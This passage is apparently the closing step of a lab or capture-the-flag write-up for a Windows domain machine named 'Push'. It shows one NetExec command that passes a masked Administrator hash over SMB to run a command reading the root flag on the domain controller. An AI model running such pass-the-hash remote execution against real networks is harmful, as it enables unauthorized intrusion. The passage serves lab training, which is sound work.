 
And finally using Netexec we confirm we are Domain Admin and obtain the root flag
```bash
nxc smb DC01.push.vl -u Administrator -H ******************* -x "type C:\Users\Administrator\desktop\root.txt"
```
![_install](/assets/img/VL-Push/35.png)



